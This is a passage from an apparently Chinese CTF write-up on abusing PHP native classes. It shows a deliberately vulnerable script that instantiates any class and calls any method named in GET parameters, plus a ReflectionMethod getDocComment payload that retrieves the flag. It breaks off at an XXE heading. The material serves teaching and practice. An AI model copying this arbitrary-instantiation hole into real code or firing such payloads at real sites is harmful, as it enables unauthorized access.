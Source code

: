 ```php
    }

    function p()
    {
        return ++self::$c;
    }

    function q()
    {
        return ++self::$c;
    }

    function r()
    {
        return ++self::$c;
    }

    function s()
    {
        return ++self::$c;
    }

    function t()
    {
        return ++self::$c;
    }
    
}

$rc=$_GET["rc"];    // 传入原生类名
$rb=$_GET["rb"];    // 传入类属性
$ra=$_GET["ra"];    // 传入类属性
$rd=$_GET["rd"];    // 传入类方法
$method= new $rc($ra, $rb);    // 实例化刚才传入的原生类
var_dump($method->$rd());     // 调用类中的方法
```

 首先看到这两行代码  

```php
$method= new $rc($ra, $rb);  
var_dump($method->$rd());
```

类似于上面的题，需要利用原生类，考察ReflectionMethod类，猜测flag在注释中

直接构造payload,即可得到flag

```php
?rc=ReflectionMethod&ra=User&rb=a&rd=getDocComment
```



### 5、SimpleXMLElement 类 XXE
